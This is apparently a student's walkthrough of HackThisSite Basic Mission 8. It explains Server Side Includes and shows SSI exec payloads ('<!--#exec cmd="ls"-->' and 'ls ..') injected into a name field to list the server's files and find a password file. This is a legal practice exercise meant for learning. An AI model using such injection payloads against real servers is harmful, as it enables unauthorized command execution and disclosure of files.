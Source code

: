 # Description: 

Sam remains confident that an obscured password file is still the best idea, but he screwed up with the calendar program. Sam has saved the unencrypted password file in /var/www/hackthissite.org/html/missions/basic/8/

The password is yet again hidden in an unknown file. Sam's daughter has begun learning PHP, and has a small script to demonstrate her knowledge. Requirements: Knowledge of SSI (dynamic html executed by the server, rather than the browser)

SSI = Server Side Includes

We need to better understand what is SSI 

But SSI is a simple interpreted server-side scripting language used almost exclusively for the World Wide Web which allow us to execute commands using html that is executed by the server side, with that all we need to do is  

# Steps to solve
## 1 Command used to solve:
`<!--#exec cmd="ls"-->`

## Response

path: hackthissite.org/html/missions/basic/8/tmp/randomfile.shtml
body: Hi, tshngmww.shtml hipykpqu.shtml ztxdhjxn.shtml avpfeoie.shtml fviqpmaw.shtml kqbybdzc.shtml dzrnmzgx.shtml npcsygfl.shtml whqxxojt.shtml ylomcmvu.shtml uhdppswp.shtml gzntiicx.shtml dzwbqiuu.shtml qvzuieng.shtml smcerykh.shtml qjhnmhmq.shtml znodwztr.shtml! Your name contains 254 characters.

Since the password file is in /var/www/hackthissite.org/html/missions/basic/8/ it means that is in a superior folder from the first response, so we need to go back to this folder and list its content, with that all we need to use is `ls ..`

# 2 Command used to solve
`<!--#exec cmd="ls .."-->`

## response 
path: https://www.hackthissite.org/missions/basic/8/tmp/fmspaphe.shtml
body: Hi, au12ha39vc.php index.php level8.php tmp! Your name contains 39 characters.

# 3 make request to file to see its content
https://www.hackthissite.org/missions/basic/8/{file.php}


# What did we learnt?
- the /var/www/ folder is used to host web content and pages when using apache servers
- 

# Questions / Objectives 
- How the server process our command in html and return the result in page?
- Create a web server witch process SSI (Server Side Includes)
- Create a web server witch process CGI (Common Gateway Interface)

# important links:

- https://en.wikipedia.org/wiki/Server_Side_Includes
- http://httpd.apache.org/docs/current/howto/ssi.html
- https://nginx.org/en/docs/http/ngx_http_ssi_module.html

# Related Interesting links:

- https://en.wikipedia.org/wiki/Common_Gateway_Interface (CGI)
